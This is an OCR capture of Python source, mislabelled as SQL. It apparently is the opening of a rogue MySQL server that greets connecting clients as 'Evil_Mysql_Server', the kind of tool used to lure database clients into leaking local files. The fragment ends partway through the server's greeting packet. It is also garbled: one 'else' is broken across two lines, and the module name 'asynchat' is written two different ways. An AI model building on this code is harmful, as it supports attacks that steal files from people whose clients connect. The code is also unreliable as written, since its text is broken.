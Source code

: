 ````sql

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        el
se:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(async_chat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a', # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0', # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00', # Thread ID
                    'evilsalt' + '\0', # Salt
                    '\xdf\xf7', # Capabilities
                    '\x08', # Collation
````